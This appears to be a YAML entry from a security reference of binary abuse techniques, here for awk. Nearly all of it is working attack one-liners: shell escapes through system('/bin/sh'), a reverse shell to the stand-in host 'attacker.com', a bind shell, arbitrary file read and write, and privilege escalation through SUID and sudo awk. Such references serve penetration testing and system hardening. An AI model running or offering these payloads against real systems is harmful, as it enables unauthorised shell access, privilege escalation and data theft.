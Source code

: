   shell:
    - code: awk 'BEGIN {system("/bin/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        awk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        awk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        awk '//' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./awk '//' "$LFILE"
  sudo:
    - code: sudo awk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./awk 'BEGIN {system("/bin/sh")}'
---
